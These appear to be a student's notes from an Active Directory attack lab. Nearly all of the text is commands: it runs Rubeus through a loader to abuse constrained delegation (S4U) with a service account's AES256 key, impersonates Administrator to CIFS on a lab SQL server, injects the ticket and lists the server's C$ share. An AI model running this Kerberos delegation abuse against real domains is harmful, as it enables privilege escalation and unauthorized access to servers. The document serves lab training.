 [[priv-esc]]

```
echo %Pwn%
```
%pwn% = s4u
on student vm
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```
check if tgs is injected
```
klist  
```
access filesystem now
```
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```
